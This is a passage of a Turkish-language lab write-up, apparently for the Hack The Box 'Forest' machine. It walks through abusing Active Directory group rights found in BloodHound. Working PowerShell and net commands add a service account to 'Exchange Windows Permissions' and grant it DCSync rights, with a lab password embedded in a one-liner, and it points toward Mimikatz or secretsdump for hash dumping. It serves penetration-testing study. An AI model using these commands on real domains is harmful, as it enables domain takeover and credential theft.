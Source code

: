 Kullanıcım, Account Operators'ın bir üyesi olan Privileged IT Account'un bir üyesi olan Service Account'ta olduğu için, temelde kullanıcım Account Operators'ın bir üyesi gibidir. Ve Account Operators, Exchange Windows Permissions grubunda Generic All ayrıcalığına sahiptir. Bloodhound'da kenara sağ tıklayıp help'i seçersem, açılan pencerede bir “Abuse Info” sekmesi görüntüleniyor:

![Pasted image 20250106182642.png](/img/user/resimler/Pasted%20image%2020250106182642.png)

Bu, bunun nasıl kötüye kullanılacağına dair tam bir arka plan veriyor ve aşağı kaydırırsam bir örnek görüyorum:

```
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'harmj0y' -Credential $Cred
```

Ben de kullanabilirim:

```
net group "Exchange Windows Permissions" svc-alfresco /add /domain
```


#### Grant DCSync Privileges

Şimdi Exchange Windows Permissions grubunun üyelerinin domain üzerinde WriteDacl yetkisine sahip olduğu gerçeğini kullanacağım. Yine help'e baktığımda, çalıştırabileceğim komutları gösteriyor:

```
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLABdfm.a', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity testlab.local -Rights DCSync
```


Bunu yaptıktan sonra, lokal olarak Mimikatz ile ya da Kali kutumdan secretsdump.py ile bir DCSync saldırısı gerçekleştirebilirim, çünkü DCSync yalnızca TCP 445, TCP 135 ve bir TCP RPC portuna (49XXX) erişim gerektirir. (Bunu nasıl bildim? Beyond Root'ta inceleyeceğim.)


### Exploit

#### Timeout

Bu saldırıyı gerçekleştirmeye çalıştığımda, deneme yanılma yöntemi kafamı karıştırdı. Kullanıcımı Exchange Windows Permissions grubuna ekliyor ve gerekli komutları çalıştırıyordum ama işe yaramıyordu. Sonra net user svc-alfreso komutunu çalıştırdım ve artık grupta değildim. Görünüşe göre burada bir temizlik yapılıyor (Beyond Root'ta bundan yararlanacağım), bu yüzden hızlı hareket etmem gerekiyor.

Local olarak çalıştırmak için tek satırlık bir komut oluşturacağım. İlk komut için kimlik bilgilerini iletmeme gerek yok, çünkü bu haklara sahip bir kullanıcı olarak zaten çalışıyorum. Ancak ikinci komut için kimlik bilgilerini iletmem gerekti. Tahminimce, oturum ilk komuttan itibaren yeni grupta olduğumu henüz bilmiyor ve kimlik bilgilerini iletmek bunu yeniliyor.

```
Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco; $username = "htb\svc-alfresco"; $password = "s3rvice"; $secstr = New-Object -TypeName System.Security.SecureString; $password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}; $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr; Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
```
